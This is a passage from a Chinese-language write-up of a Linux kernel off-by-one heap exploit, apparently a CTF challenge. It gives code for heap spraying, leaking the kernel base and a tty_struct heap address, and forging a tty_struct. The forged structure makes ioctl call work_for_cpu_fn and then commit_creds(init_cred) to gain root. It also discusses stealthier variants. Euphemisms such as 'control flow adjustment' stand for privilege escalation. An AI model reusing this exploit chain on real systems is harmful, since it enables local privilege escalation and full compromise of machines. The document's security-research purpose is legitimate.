**内存布局构建**：
通过精心控制内存分配顺序，构建了`seq_operations`、`user_key_payload`和`poll_list`三种数据结构的特定物理相邻关系。这种布局为后续的单字节内存操作创造了条件。

#### 5-3-2. 单字节内存操作与信息获取

当内存布局构建完成后，触发单字节内存操作，修改相邻`poll_list`对象的`next`指针。这一操作改变了内存链表的拓扑结构，为构造特定的内存释放条件奠定了基础。

**操作触发代码**：

```c
/* 触发单字节内存操作 */
write(fd, data, PAGE_SIZE);
```

**内存释放条件构建**：
通过`poll`系统调用的超时释放机制，触发错误的内存释放操作，构建特定的内存使用条件。被错误释放的`user_key_payload`对象为后续的信息获取创造了机会。

**内核地址信息获取**：
在内存释放条件形成后，立即分配新的`seq_operations`对象重用被释放的内存区域。通过`keyctl`系统调用读取被覆盖的`user_key_payload`数据，实际上获取的是`seq_operations->show`函数指针，从而计算出内核基址。

```c
/* 内核地址信息获取实现 */
if (is_kernel_pointer(*leak) && (*leak & 0xfff) == 0xf70) {
    corrupted_key = i;
    proc_single_show = *leak;
    kernel_offset = proc_single_show - PROC_SINGLE_SHOW;
    kernel_base += kernel_offset;
}
```

### 5-4. 第二阶段：堆地址信息获取

#### 5-4-1. 内存环境重新准备

获取内核基址后，需要为堆地址信息获取进行内存环境重新准备。这一阶段的核心是释放不必要的内存对象，为`tty_file_private`的内存分配创造空间，并通过`tty_file_private`与`user_key_payload`的重叠获取`tty_struct`地址。

**内存清理操作**：

```c
/* 释放198个非目标user_key_payload对象 */
free_all_keys(true);
```

**关键内存布局模拟**：

在初始阶段，分配了199个`user_key_payload`对象，其中第`corrupted_key`个对象的`datalen`字段在单字节溢出时被修改，从而允许越界读取。这些`user_key_payload`对象在物理内存上是连续的。当调用`free_all_keys(true)`释放除`corrupted_key`之外的所有`user_key_payload`后，内存布局如下：

```
内存布局（释放后）：
-------------------------------------------------------------------------------
| 已释放user_key_payload | corrupted user_key_payload | 已释放user_key_payload |
-------------------------------------------------------------------------------
```

**tty_file_private内存分配**：
接着，分配72个`tty_file_private`对象，这些对象会填充刚刚释放的`user_key_payload`空洞。由于SLUB分配器的重用特性，`tty_file_private`对象很可能分配到这些空洞中，从而与`corrupted user_key_payload`相邻。

```c
/* 分配tty_file_private对象 */
for (i = 0; i < 72; i++) {
    alloc_tty(i);  /* 打开/dev/ptmx，分配tty_file_private和tty_struct */
}
```

**分配后的内存布局**：

```
内存布局（分配tty_file_private后）：
---------------------------------------------------------------------------------------------
| tty_file_private | ... | tty_file_private | corrupted user_key_payload | tty_file_private |
---------------------------------------------------------------------------------------------
```

**tty_struct与tty_file_private的关系**：
每个`tty_file_private`结构体都包含一个指向对应`tty_struct`的指针（`tty`字段）。`tty_struct`对象分配在kmalloc-1024缓存中，而`tty_file_private`分配在kmalloc-32缓存中。此时的内存布局关系可表示为：

```
物理内存关系模拟：
-----------------------------------------------------
| 地址              | 对象类型         | 缓存类型   |
|-------------------|------------------|------------|
| 0xA00000          | tty_struct_A     | kmalloc-1024|
| 0xA00400          | tty_struct_B     | kmalloc-1024|
| ...               | ...              | ...        |
| 0xB00000          | tty_file_private_X| kmalloc-32 |
| 0xB00020          | corrupted key    | kmalloc-32 |
| 0xB00040          | tty_file_private_Y| kmalloc-32 |
| ...               | ...              | ...        |
-----------------------------------------------------
```

#### 5-4-2. 堆地址信息获取机制

通过`corrupted user_key_payload`的越界读取能力，可以读取相邻的`tty_file_private`结构体内容，从而获取`tty_struct`的堆地址。由于第一阶段中`corrupted user_key_payload->datalen`被修改为较大的值（对应`seq_operations->show`函数指针），可以读取超出正常范围的数据，覆盖了相邻的`tty_file_private`结构。

**堆地址信息获取算法**：

```c
/* 堆地址信息获取实现 */
int leak_heap_pointer(int kid) {
    uint64_t *leak;
    char *key = get_key(kid, 0x20000);
    leak = (uint64_t *)key;

    for (int i = 0; i < 0x20000 / sizeof(uint64_t); i++) {
        /* 验证条件1: 第一个8字节是堆地址且16字节对齐 */
        if (is_heap_pointer(leak[i]) && (leak[i] & 0xf) == 0x00) {
            /* 验证条件2: list.next == list.prev 且不为0 */
            if (leak[i + 2] == leak[i + 3] && leak[i + 2] != 0) {
                target_object = leak[i];
                log.success("tty_struct heap address: 0x%llx", target_object);
                log.debug("tty_file_private->list.next = 0x%llx", leak[i+2]);
                log.debug("tty_file_private->list.prev = 0x%llx", leak[i+3]);
                free(key);
                return 0;
            }
        }
    }
    return -1;
}
```

**地址验证条件**：

1. **堆地址空间验证**：第一个8字节必须在用户堆地址空间范围内
2. **16字节对齐验证**：地址的低4位必须为0，符合kmalloc-1024分配的16字节对齐特性
3. **链表结构验证**：`tty_file_private->list.next`必须等于`tty_file_private->list.prev`且不为0，这是`tty_file_private`结构体的特征

**数据结构内存布局**：
根据提供的调试信息，`tty_file_private`结构的内存布局如下：

```
tty_file_private结构布局（64位系统）：
偏移0x00: tty指针 (8字节) → 指向tty_struct
偏移0x08: file指针 (8字节) → 指向struct file
偏移0x10: list.next (8字节) → 指向下一个链表节点
偏移0x18: list.prev (8字节) → 指向上一个链表节点
```

**关键特征分析**：

- **16字节对齐**：kmalloc-1024分配的对象通常按照16字节对齐，因此`tty_struct`地址的低4位为0
- **链表特征**：在初始状态下，`tty_file_private`结构体中的`list`成员通常会被初始化为一个双向链表节点，其`next`和`prev`指针通常指向同一个地址（可能是链表头），且不为0
- **结构识别**：通过这三个条件的组合，可以可靠地识别`tty_file_private`结构体

**指针链式追踪**：
通过`tty_file_private->tty`指针获取`tty_struct`地址，然后进一步通过`tty_file_private->list`成员的对称性验证获取地址的有效性。这种指针链式追踪和结构特征验证确保了地址信息的准确性。

### 5-5. 第三阶段：控制流调整执行

#### 5-5-1. 二次内存布局调整

获取堆地址信息后，需要进行二次内存布局调整，为最终的控制流调整创造条件。这一阶段涉及多个不同大小缓存的内存操作协调，通过重新分配和释放操作，构建特定的内存重叠条件。

**内存释放序列**：

1.**释放seq_operations对象**：释放之前分配的128个`seq_operations`对象，这些对象中有一个是之前用于信息获取的`corrupted user_key_payload`的重用对象。释放后，这些内存区域变为空闲状态。

```c
/* 释放128个seq_operations对象 */
for (i = 2048; i < 2048 + 128; i++) {
    free_seq_ops(i);
}
```

2.**分配poll_list对象**：分配192个小型`poll_list`对象占用刚刚释放的内存区域。由于SLUB分配器的重用特性，这些`poll_list`对象可能会重用之前释放的`seq_operations`内存，包括那个与`corrupted user_key_payload`重叠的对象。此时某个`poll_list`结构体与`corrupted user_key_payload`在内存中重叠。

```c
/* 分配192个poll_list对象 */
bind_core(randint(1, 3));
for (i = 0; i < 192; i++) {
    create_poll_thread(i, 24, 3000, true);
}
```

3.**释放corrupted user_key_payload**：释放包含堆地址信息的`user_key_payload`对象。由于此时该对象与某个`poll_list`对象重叠，释放操作会同时释放那个`poll_list`对象，形成释放后使用条件。

```c
/* 释放corrupted user_key_payload */
free_key(corrupted_key);
sleep(1);  /* 等待RCU内存回收 */
```

4.**重新分配user_key_payload**：重新分配199个`user_key_payload`对象，这些对象会重用刚刚释放的内存区域。通过`setxattr`设置前8字节，可以控制`poll_list->next`指针。这是二次`poll_list`结构利用的关键步骤。

```c
/* 设置poll_list->next指向target_object-0x18 */
*(uint64_t *)&data[0] = target_object - 0x18;
for (i = 0; i < MAX_KEYS; i++) {
    setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
    keys[i] = alloc_key(n_keys++, key, 32);
}
```

**内存对齐原理**：
设置`poll_list->next`指向`target_object-0x18`的关键在于`user_key_payload`结构的内存布局：

```
user_key_payload结构布局：
偏移0x00: rcu_head (8字节)      → poll_list->next指针位置
偏移0x08: rcu_head.func (8字节)  → poll_list->len字段位置
偏移0x10: datalen (2字节) + 填充 → poll_list->padding等字段
偏移0x18: data[] (可变数据)      → 从这里开始是用户可控数据
```

**对齐计算**：

- `target_object`是`tty_struct`的起始地址
- `target_object-0x18`是`tty_struct`起始地址前24字节的位置
- 当`user_key_payload`覆盖这个区域时，其`data`字段（从偏移0x18开始）正好从`target_object`开始
- 这样，通过`user_key_payload`的`data`字段可以完全控制`tty_struct`结构体的内容

#### 5-5-2. 目标tty_struct释放与重用

通过上述内存布局调整，成功将`poll_list->next`指针指向了`target_object-0x18`。当`poll`线程完成并释放`poll_list`链表时，会错误地释放目标`tty_struct`对象。接着通过释放现有`tty_struct`对象并重新分配，使目标内存区域被重新控制。

**tty_struct内存重新分配序列**：

1.**释放现有tty_struct对象**：释放72个之前分配的`tty_struct`相关对象，为重新分配创造空间。

```c
/* 释放tty_struct对象 */
for (i = 0; i < 72; i++) {
    free_tty(i);
}
sleep(1);  /* 等待RCU内存回收 */
```

2.**重新分配tty_struct对象**：分配1024个新的`tty_struct`对象，这些对象会重用之前释放的内存区域，包括被`poll_list->next`释放的目标`tty_struct`。由于大量分配，目标内存区域有很大概率被重新占用。

```c
/* 重新分配tty_struct对象 */
for (i = 0; i < 1024; i++) {
    alloc_tty(i);
}
```

3.**触发poll_list释放**：等待所有`poll`线程完成，触发`poll_list`链表的释放，从而通过被修改的`next`指针错误释放目标`tty_struct`。

```c
/* 触发poll_list释放 */
while (poll_threads != 0) {};
```

#### 5-5-3. 控制流调整链构建

在目标`tty_struct`被错误释放后，通过分配`user_key_payload`对象来覆盖该内存区域，构建控制流调整链。首先释放所有`user_key_payload`对象，为重新分配做准备。

**内存准备**：

```c
/* 释放所有user_key_payload对象 */
free_all_keys(false);
```

**控制流调整链结构**：
构建一个特殊的控制流调整链，这个链将同时作为`tty_struct`、`tty_operations`和`work_for_cpu`结构体。

```c
/* 控制流调整链构建 */
rop_chain[0] = 0x0000000100005401;  /* tty_struct->magic = 0x5401 */
rop_chain[2] = target_object - 0x38;  /* tty_struct->driver，避免空指针解引用 */
rop_chain[3] = target_object;  /* tty_struct->ops，指向自身 */
rop_chain[12] = kernel_offset + WORK_FOR_CPU_FN;  /* tty_operations->ioctl */
rop_chain[4] = kernel_offset + COMMIT_CREDS;  /* work_for_cpu->fn */
rop_chain[5] = kernel_offset + INIT_CRED;  /* work_for_cpu->arg */
```

**内存分配与控制**：
分配31个`user_key_payload`对象，每个对象的大小为600字节（属于kmalloc-1024缓存）。这些对象会重用之前被释放的`tty_struct`内存区域，从而覆盖目标`tty_struct`。由于控制流调整链的大小为600字节，恰好可以完全覆盖`tty_struct`结构。

```c
/* 分配包含控制流调整链的user_key_payload对象 */
for (i = 0; i < 31; i++) {
    keys[i] = alloc_key(n_keys++, (char *)rop_chain, 600);
}
```

**控制流调整链布局原理**：

```
内存偏移布局（相对于target_object）：
偏移0x00: magic (0x5401) - 满足tty_ioctl校验
偏移0x10: driver (target_object-0x38) - 避免空指针解引用
偏移0x18: ops (target_object) - 指向自身，形成复合结构
偏移0x60: ops->ioctl (WORK_FOR_CPU_FN) - 12*8=0x60偏移
偏移0x20: work_for_cpu->fn (COMMIT_CREDS) - 结构体[4]位置
偏移0x28: work_for_cpu->arg (INIT_CRED) - 结构体[5]位置
```

**结构体复合利用**：

```
tty_struct与work_for_cpu结构复合布局：
target_object: tty_struct结构起始
同时作为work_struct结构起始
同时作为work_for_cpu结构起始

关键字段对应关系：
tty_struct->ops->ioctl 对应 work_for_cpu_fn
work_for_cpu->fn 对应 commit_creds
work_for_cpu->arg 对应 init_cred
```

**函数链式调用原理**：

1. **tty_ioctl校验**：`tty_struct->magic == 0x5401`通过校验
2. **函数指针调用**：`tty_ioctl`调用`tty_struct->ops->ioctl()`，即`work_for_cpu_fn`
3. **参数传递**：`rdi`寄存器包含`tty_struct`地址，即`work_struct`地址
4. **容器转换**：`work_for_cpu_fn`通过`container_of`将`work_struct`转换为`work_for_cpu`
5. **函数执行**：执行`wfc->fn(wfc->arg)`，即`commit_creds(init_cred)`
6. **优雅返回**：`work_for_cpu_fn`执行完成后自动返回，流程正常退出

**work_for_cpu_fn函数细节**：

```c
static void work_for_cpu_fn(struct work_struct *work)
{
    struct work_for_cpu *wfc = container_of(work, struct work_for_cpu, work);
    wfc->ret = wfc->fn(wfc->arg);
}
```

**结构体内存布局对应**：

```
work_for_cpu结构体布局：
偏移0x00: work.data (8字节)        → 对应rop_chain[0]
偏移0x08: work.entry.next (8字节)  → 对应rop_chain[1]（未设置）
偏移0x10: work.entry.prev (8字节)  → 对应rop_chain[2]
偏移0x18: work.func (8字节)        → 对应rop_chain[3]
偏移0x20: fn (8字节)               → 对应rop_chain[4] = commit_creds
偏移0x28: arg (8字节)              → 对应rop_chain[5] = init_cred
偏移0x30: ret (8字节)              → 对应rop_chain[6]（未设置）
```

#### 5-5-4. 控制流调整触发

当控制流调整链构建完成后，需要触发`tty_struct->ops->ioctl()`函数指针执行控制流调整。由于内存操作的不确定性，无法确切知道哪个`tty_struct`对象被成功修改，因此采用顺序遍历尝试的策略：

**控制流调整触发机制**：

```c
/* 顺序尝试所有可能的tty_struct对象 */
for (i = 0; i < 1024; i++) {
    ioctl(ptmx[i], 0xdeadbeaf, 0xdeadbeaf);
}
```

**遍历触发策略分析**：
在内存操作过程中，存在以下不确定性因素：

1. **内存分配随机性**：SLUB分配器的随机化策略使得目标`tty_struct`的确切位置不确定
2. **内存重用不确定性**：被释放的`tty_struct`内存可能被多个新分配的对象竞争
3. **控制结构覆盖不确定性**：`user_key_payload`的`data`字段可能只覆盖了部分`tty_struct`对象

由于这些不确定性，无法预先确定哪个`tty_struct`文件描述符对应着被成功修改的内核对象。因此，技术实现采用顺序遍历所有可能文件描述符的策略，逐一尝试触发控制流调整。在遍历的1024个`tty_struct`对象中，只有一个是被`poll_list->next`释放并随后被`user_key_payload`修改的目标对象。

**触发过程细节**：

1. **系统调用入口**：`ioctl`系统调用进入内核空间
2. **tty_ioctl调用**：路由到`tty_ioctl`函数，进行参数验证
3. **结构体验证**：对每个`tty_struct`进行合法性验证
4. **函数指针调用**：对验证通过的`tty_struct`调用`tty_struct->ops->ioctl()`
5. **控制流调整**：当遇到被成功修改的`tty_struct`时，执行控制流调整链

**遍历终止条件**：
一旦某个`tty_struct`对象的`ioctl`调用成功触发了控制流调整链，进程权限将得到提升。此时可以通过权限检查来确认是否成功，如果成功则不再需要继续遍历。

**遍历策略的优势**：

1. **确定性覆盖**：确保所有可能的`tty_struct`对象都被尝试
2. **概率优势**：即使单个对象的成功率有限，大量尝试可显著提高整体成功率
3. **简单可靠**：避免复杂的同步和状态跟踪机制
4. **资源友好**：顺序执行减少系统负载

**数学概率模型**：
设单个`tty_struct`对象被成功修改的概率为$$P_{modify}$$，则遍历$$n=1024$$个对象至少命中一个的概率为：

$$
P_{hit} = 1 - (1 - P_{modify})^{n}
$$

考虑到内存操作的成功率，即使$$P_{modify}$$较低，通过大量尝试仍可获得可接受的整体成功率。例如，当$$P_{modify} = 0.003$$时：

$$
P_{hit} = 1 - (1 - 0.003)^{1024} \approx 0.953
$$

**遍历触发的局限性**：

1. **顺序执行延迟**：需要顺序尝试大量文件描述符，可能产生可感知的延迟
2. **系统调用开销**：大量`ioctl`系统调用可能产生一定性能开销
3. **日志痕迹**：大量失败的系统调用可能在系统日志中留下痕迹

**优化策略**：
为了提高效率和隐蔽性，可以采用以下优化：

1. **并发尝试**：使用多个线程并发尝试不同的文件描述符范围
2. **早期检测**：在遍历过程中定期检查权限状态，成功则立即终止
3. **随机顺序**：随机化尝试顺序，减少可预测的模式
4. **批量处理**：将多个文件描述符分组处理，减少循环开销

### 5-6. 关键技术特征分析

#### 5-6-1. 复合结构利用技术

本技术实现的核心特征是利用了`tty_struct`、`tty_operations`和`work_for_cpu`结构的复合利用：

**结构复合原理**：

```
内存区域复用：
同一块内存区域被解释为三种不同结构：
1. tty_struct: 用于通过tty_ioctl校验
2. tty_operations: 提供函数指针表
3. work_for_cpu: 提供函数执行框架
```

**技术优势**：

1. **内存效率**：减少内存占用，提高成功率
2. **简化控制**：统一控制多个相关结构
3. **自然转换**：利用内核现有的容器转换机制
4. **优雅返回**：利用现有函数的正常返回机制

**内存布局精确控制**：
通过精确控制内存布局，确保：

1. `tty_struct->magic`位于正确位置
2. `tty_struct->ops`指向复合结构自身
3. `tty_operations->ioctl`指向`work_for_cpu_fn`
4. `work_for_cpu->fn`和`work_for_cpu->arg`包含目标函数和参数

#### 5-6-2. 不确定目标遍历策略

技术实现展示了在目标对象不确定情况下的有效遍历策略：

**遍历必要性分析**：
由于内核内存操作的复杂性和随机性，无法精确预测或跟踪哪个`tty_struct`对象被成功修改。遍历策略通过穷举所有可能性来应对这种不确定性。

**遍历效率优化**：
虽然采用简单的顺序遍历，但通过以下方式保持效率：

1. **有限范围**：遍历范围限制在已知分配的1024个对象内
2. **早期终止**：一旦检测到成功立即终止遍历
3. **系统调用优化**：使用简单的`ioctl`调用减少开销

**遍历可靠性**：
遍历策略的可靠性基于以下保证：

1. **完整性**：遍历所有可能的文件描述符
2. **独立性**：每次尝试相互独立
3. **确定性**：成功条件明确可检测

#### 5-6-3. 精确内存对齐技术

技术实现展示了精确的内存对齐控制能力：

**对齐原理**：

1. **16字节对齐**：`tty_struct`地址低4位为0，符合kmalloc-1024对齐
2. **结构体对齐**：各个结构体字段按照8字节对齐
3. **复合对齐**：复合结构体字段精确对齐

**对齐计算**：

- `target_object-0x18`：确保`user_key_payload->data`从`target_object`开始
- `target_object-0x38`：`tty_struct->driver`字段，避免空指针
- 偏移计算：精确计算各个字段在结构体中的偏移

**内存控制**：
通过精确的内存对齐和控制，确保：

1. 结构体字段位于正确偏移
2. 函数指针指向正确地址
3. 数据访问不会越界
4. 内存访问不会触发异常

### 5-7. 技术路径对比

本章节描述的`tty_struct`结构利用技术与第三章基于`seq_operations`和`poll_list`的技术实现存在显著差异，主要体现在技术路径、目标结构和实现机制等方面。下表详细对比了两种技术的主要特征：

| 对比维度             | 第三章：seq_operations + poll_list 技术                      | 第五章：tty_struct + tty_operations 技术                                 |
| -------------------- | ------------------------------------------------------------ | ------------------------------------------------------------------------ |
| **初始漏洞触发**     | 单字节溢出修改`poll_list->next`指针                          | 单字节溢出修改`poll_list->next`指针                                      |
| **信息泄露机制**     | 通过`user_key_payload`覆盖泄露`seq_operations->show`函数指针 | 通过`user_key_payload`越界读取相邻`tty_file_private`泄露`tty_struct`地址 |
| **堆地址获取**       | 不需要获取堆地址                                             | 需要获取`tty_struct`的堆地址                                             |
| **控制流劫持点**     | `seq_operations->start`函数指针                              | `tty_struct->ops->ioctl`函数指针                                         |
| **控制流调整链**     | 基于栈迁移的传统ROP链                                        | 基于结构体复合的`work_for_cpu_fn`链式调用                                |
| **数据结构利用**     | `seq_operations`、`poll_list`、`user_key_payload`            | `tty_file_private`、`tty_struct`、`tty_operations`、`work_for_cpu`       |
| **缓存类型**         | 主要使用kmalloc-32缓存                                       | 使用kmalloc-32和kmalloc-1024缓存                                         |
| **内存布局复杂度**   | 相对简单，单一缓存操作                                       | 复杂，跨缓存操作和复合结构布局                                           |
| **控制流返回机制**   | 需要显式设置返回用户空间的gadget                             | 利用`work_for_cpu_fn`的自然返回机制                                      |
| **触发机制**         | 通过`read`系统调用触发`seq_read`                             | 通过`ioctl`系统调用触发`tty_ioctl`                                       |
| **目标不确定性处理** | 通过多进程并发提高成功率                                     | 通过顺序遍历尝试所有可能对象                                             |
| **技术成熟度**       | 相对成熟，技术路径清晰                                       | 相对新颖，技术要求更高                                                   |
| **适用场景**         | 适用于存在`seq_operations`结构的环境                         | 适用于存在终端设备操作的环境                                             |
| **隐蔽性**           | 系统调用相对正常，隐蔽性较好                                 | 大量`ioctl`调用可能留下痕迹                                              |
| **成功率影响因素**   | 堆喷数量、时序控制、并发数量                                 | 内存对齐、结构复合、遍历策略                                             |

### 5-8. 技术总结

本章节描述的`tty_struct`结构利用技术代表了内核内存操作领域的高级技术实践，通过`tty_file_private`和`tty_struct`的层级关系利用、复合结构控制、精确内存对齐和函数链式调用，展现了现代系统环境下复杂技术实现的工程深度。技术实现的核心在于精确控制`tty_struct`内存布局，构建包含`tty_struct`、`tty_operations`和`work_for_cpu`的复合结构体，并巧妙利用`work_for_cpu_fn`函数实现优雅的链式调用。从用户空间`open("/dev/ptmx")`触发`tty_file_private`和`tty_struct`分配，到通过`user_key_payload`越界读取获取堆地址，再到二次`poll_list`结构利用实现目标内存释放，最后通过`ioctl`系统调用触发控制流调整链，整个流程体现了多层次、多阶段的技术协调。相比第三章的简单结构利用，本章节技术展现了更高的复杂度和适应性，通过跨缓存操作、结构体复合、指针链式追踪等先进技术，能够应对更复杂的内核环境和防护机制，为理解现代内核内存操作技术提供了完整的技术视角和工程实践范例，同时也为系统安全研究和防御技术发展提供了重要的技术参考。

### 5-9. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

https://github.com/BinRacer/pwn4kernel/tree/master/src/OffByOne3
https://github.com/BinRacer/pwn4kernel/tree/master/src/OffByOne2
https://bsauce.github.io/2022/11/11/CoRJail/
